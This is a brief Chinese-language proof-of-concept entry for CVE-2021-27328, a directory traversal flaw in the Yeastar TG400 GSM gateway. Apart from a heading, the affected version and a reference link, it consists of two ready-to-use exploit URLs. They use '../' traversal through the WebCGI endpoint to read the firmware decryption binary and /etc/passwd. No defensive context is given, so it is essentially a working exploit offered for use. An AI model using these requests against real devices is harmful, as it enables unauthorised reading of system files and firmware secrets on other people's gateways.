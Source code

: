 # 朗视TG400 GSM 网关目录遍历 (CVE-2021-27328)

影响版本：

Yeastar TG400 GSM-91.3.0.3

**PoC：**

```bash
获取固件解密密码
http://192.168.43.246/cgi/WebCGI?1404=../../../../../../../../../../bin/firmware_detect
/etc/passwd：
http://192.168.43.246/cgi/WebCGI?1404=../../../../../../../../../../etc/passwd
```

ref：

https://github.com/SQSamir/CVE-2021-27328